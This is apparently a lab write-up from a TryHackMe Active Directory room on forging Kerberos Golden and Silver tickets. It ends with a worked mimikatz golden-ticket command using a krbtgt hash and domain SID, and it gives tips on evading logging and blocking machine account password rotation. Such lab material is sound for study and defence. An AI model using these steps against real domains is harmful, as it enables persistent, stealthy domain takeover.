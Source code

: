 - Golden tickets would even allow you to bypass smart card authentication, since the smart card is verified by the DC before it creates the TGT.
- We can generate a golden ticket on any machine, even one that is not domain-joined (such as our own attack machine), making it harder for the blue team to detect.

```ad-note
Apart from the KRBTGT account's password hash, we only need the domain name, domain SID, and user ID for the person we want to impersonate. If we are in a position where we can recover the KRBTGT account's password hash, we would already be in a position where we can recover the other pieces of the required information.
```

### Silver Tickets

Silver Tickets are forged TGS tickets. So now, we skip all communication (Step 1-4 in the diagram above) we would have had with the KDC on the DC and just interface with the service we want access to directly. 

Some interesting notes about Silver Tickets:
- The generated TGS is signed by the machine account of the host we are targeting.

- The main difference between Golden and Silver Tickets is the number of privileges we acquire. With a Silver Ticket, since we only have access to the password hash of the machine account of the server we are attacking, we can only impersonate users on that host itself. 

- Since the TGS is forged, there is no associated TGT, meaning the DC was never contacted. This makes the attack incredibly dangerous since the only available logs would be on the targeted server.

- Since permissions are determined through SIDs, we can again create a non-existing user for our silver ticket, as long as we ensure the ticket has the relevant SIDs that would place the user in the host's local administrators group.

- The machine account's password is usually rotated every 30 days. However, we could leverage the access our TGS provides to gain access to the host's registry and alter the parameter that is responsible for the password rotation of the machine account.

- While only having access to a single host might seem like a significant downgrade, machine accounts can be used as normal AD accounts, allowing you not only administrative access to the host but also the means to continue enumerating and exploiting AD as you would with an AD user account.

### Forging Tickets for Fun and Profit
 Before starting we need to make not of the krbtgt ntlm hash which we already have from the previous task
 ```
user:krbtgt
ntlm hash:16f9af38fca3ada405386b3b57366082

user: thmserver1
ntlm hash: 4c02d970f7b3da7f8ab6fa4dc77438f4
```
Lets jump on our low privilige user now
```
PS C:\Users\grace.clarke> Get-ADDomain 
...
DomainSID   S-1-5-21-3885271727-2693558621-2658995185
...
```
We got our Domain SID now lets go to mimikatz on our administrator account.
```
mimikatz # kerberos::golden /admin:NotanAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt

```
- /admin - The username we want to impersonate, this does not have to be a valid user
- /domain - The FQDN of the domain we want to generate the ticket for
- /id - The user id. Default mimikatz uses id 500 this is the default admin account RID